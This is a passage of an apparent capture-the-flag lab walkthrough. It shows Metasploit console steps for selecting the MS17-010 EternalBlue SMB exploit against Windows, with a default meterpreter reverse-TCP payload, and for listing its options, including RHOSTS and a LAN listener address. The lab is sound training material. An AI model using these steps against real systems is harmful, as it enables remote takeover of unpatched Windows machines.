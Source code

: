 > _No answer needed_

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### • Show options and set the one required value. What is the name of this value? (All caps for submission)

> RHOSTS

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.
                                             com/docs/using-metasploit/basics/using-metasploi
                                             t.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authent
                                             ication. Only affects Windows Server 2008 R2, Wi
                                             ndows 7, Windows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the specified userna
                                             me
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Tar
                                             get. Only affects Windows Server 2008 R2, Window
                                             s 7, Windows Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only
                                             affects Windows Server 2008 R2, Windows 7, Windo
                                             ws Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, n
                                        one)
   LHOST     192.168.1.9      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```